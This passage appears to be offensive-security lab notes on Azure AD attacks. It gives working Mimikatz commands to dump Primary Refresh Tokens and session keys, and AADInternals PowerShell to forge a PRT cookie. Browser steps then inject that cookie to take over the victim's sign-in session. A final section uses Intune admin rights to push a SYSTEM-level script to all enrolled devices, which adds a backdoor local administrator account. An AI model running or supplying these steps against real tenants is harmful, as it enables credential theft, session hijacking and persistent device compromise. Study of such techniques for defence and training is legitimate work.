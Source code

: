#### Use psremoting to access the machine

## Pass the PRT
#### Extract PRT, Session key (keyvalue) and Tenant ID
```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request access token (cookie) to all applications
```
Import-Module .\AADInternals.psd1

$PRTOfMBarron = '<PRT>'
while($PRTOfMBarron.Length % 4) {$PRTOfMBarron += "="}
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRTOfMBarron))

$ClearKey = "<CLEARKEY>"
$SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))

New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
```

#### Copy the value from above command and use it with a web browser
- Open the Browser in Incognito mode
- Go to https://login.microsoftonline.com/login.srf
- Press F12 (Chrome dev tools) -> Application -> Cookies
- Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
- Mark HTTPOnly and Secure for the cookie
- Visit https://login.microsoftonline.com/login.srf again and we will get access as the user!


## Intune
- a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device. The script runs with privileges of SYSTEM on the device.
- If user had Intune Administrator role go to https://endpoint.microsoft.com/#home and login (or from a ticket (PRT)
- Go to Devices -> All Devices to check devices enrolled to Intune:
- Go to Scripts and Click on Add for Windows 10. Create a new script and select a script
- Example script adduser.ps1
```
$passwd = ConvertTo-SecureString "Stud38Password@123" -AsPlainText -Force
New-LocalUser -Name student38 -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```
- Select `Run script in 64 bit PowerShell Host`
- On the assignment page select "Add all users" and "add all devices"
